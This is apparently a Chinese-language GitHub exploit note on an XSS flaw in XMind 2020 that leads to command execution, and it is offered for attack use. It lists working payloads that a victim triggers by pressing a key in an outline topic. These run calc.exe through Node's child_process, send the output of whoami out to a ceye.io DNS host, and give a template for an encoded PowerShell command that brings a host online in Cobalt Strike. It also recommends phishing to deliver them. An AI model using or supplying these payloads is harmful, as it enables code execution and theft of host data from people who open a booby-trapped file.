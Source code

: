 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
* 简单弹窗<br>`<img src=1 onerror=alert("1")>`<br>
* 弹计算器<br>`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
* DNS带外<br>``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
* 通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
